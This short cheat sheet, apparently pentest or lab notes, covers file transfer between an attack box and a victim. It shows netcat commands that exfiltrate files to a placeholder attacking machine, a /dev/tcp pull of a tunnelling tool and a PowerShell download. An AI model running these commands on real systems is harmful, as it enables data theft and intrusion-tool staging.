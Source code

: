 
## NC 
You can transfer files via netcat using setting up a listener on the box you want to receive the file like so;
`nc -lvnp 9001 > <FILE>`

On the system you want to extract files from, you can 
`nc <ATTACKING MACHINE 9001 < <FILE>`
or
`cat <file> | nc <ATTACKING MACHINE> 9001`


**You may need to terminate the nc listener receiving the file as it can hang and keep the connection active** 


## TCG you monster (/dev/tcp)
You can use `/dev/tcp` to transfer files in some janky horrid way
Host the file on your attack box like normal `nc -lvnp 9001 < <FILE>`

From the victim run 
`cat < /dev/tcp/<IP>/<PORT> > <FILENAME>`

`cat < /dev/tcp/10.11.41.83/9001 > chisel.b64`


## Powershell
Within a powershell cli, you can transfer files to your box with 
`Invoke-WebRequest "http://<IP>/<FILE>" -OutFile "<FILENAME>"`